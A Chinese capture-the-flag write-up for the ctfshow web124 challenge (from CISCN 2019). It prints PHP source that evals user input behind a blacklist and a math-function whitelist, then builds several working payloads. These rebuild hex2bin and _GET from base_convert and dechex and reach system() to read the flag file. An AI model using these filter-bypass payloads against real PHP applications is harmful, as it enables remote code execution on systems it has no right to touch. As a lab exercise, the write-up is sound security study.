
web120

web121

web122

web124
2019CISCN初赛原题
<?php
/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date: 2020-09-16 11:25:09
# @Last Modified by: h1xa
# @Last Modified time: 2020-10-06 14:04:45
*/
error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
show_source(__FILE__);
}else{
//例子 c=20-1
$content = $_GET['c'];
if (strlen($content) >= 80) {
die("太长了不会算");
}
$blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
foreach ($blacklist as $blackitem) {
if (preg_match('/' . $blackitem . '/m', $content)) {
die("请不要输入奇奇怪怪的字符");
}
}
//常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
$whitelist = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh', 'base_convert', 'bindec', 'ceil', 'cos', 'cosh', 'decbin', 'dechex', 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
preg_match_all('/[a-zA-Z_\x7f-\xff][a-zA-Z_0-9\x7f-\xff]*/', $content, $used_funcs);
foreach ($used_funcs[0] as $func) {
if (!in_array($func, $whitelist)) {
die("请不要输入奇奇怪怪的函数");
}
}
//帮你算出答案
eval('echo '.$content.';');
} 代码审计
代码接受GET传参c，保存在content中，并对参数长度进行了限制<80。
然后设置了一个黑名单，过滤了一些特殊字符，空格和/也给过滤了，所以cat /flag无门。
接下来提供了一个白名单，里面是一些数学函数，并提供了一个常用数学函数的链接，可以查到这些函数的用法。
都满足以上条件后，使用eval来执行传入的参数。
分析到这里，只能利用白名单中提供的函数来构造命令，用到的函数有：
base_convert()：在任意进制之间转换数字dechex()：将十进制转换成十六进制hex2bin()：将十六进制转换成ascii字符
思路是：先利用dechex()将GET传入的十进制数转换成十六进制，再利用hex2bin()将得到的十六进制数转换成ascii字符串。又因为白名单里没有hex2bin()这个函数，所以需要利用base_convert()来将GET传入的十进制数转换成三十六进制（因为三十六进制中含有数字字母）构造出hex2bin，最后将分别传入的字符串拼接即可构造成功。
*Trick：十进制数37907361743转换成三十六进制之后正好就是hex2bin。
因为代码中对传入的参数c做了长度限制，但可以通过传入其它参数，在构造出来的语句中调用即可。
这里还涉及到一个知识点，PHP中可以将函数名保存在一个变量中，然后使用这个变量来替代函数名，例如：
$a = 'dechex';
echo $a(10); // a利用以上知识点，尝试构造如下payload：
?c=$_GET[a]($_GET[b])&a=system&b=cat /flag构造过程如下：
base_convert(37907361743, 10, 36); => hex2bin
dechex(1598506324); => 5f474554
hex2bin('5f474554'); => _GET
($$pi){pi}(($$pi){abs}) => ($_GET){pi}($_GET){abs} //{}可以代替[]
综上：
$pi = base_convert(37907361743, 10, 36);
$pi = $pi(dechex(1598506324));
echo $pi; // _GET，即此时的$pi就是_GET拼接形成payload：
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));($$pi){pi}(($$pi){abs})&pi=system&abs=cat%20/flag
?c=$pi=base_convert(37907361743,10,36)(dechex(1598506324));$$pi{pi}($$pi{abs})&pi=system&abs=cat flag.php
?c=($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
?c=base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
?c=$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20flag.php
$pi=base_convert,$pi(696468,10,36)($pi(8768397090111664438,10,30)(){1})
//要在请求头里面加一个 1:tac flag.php 见下图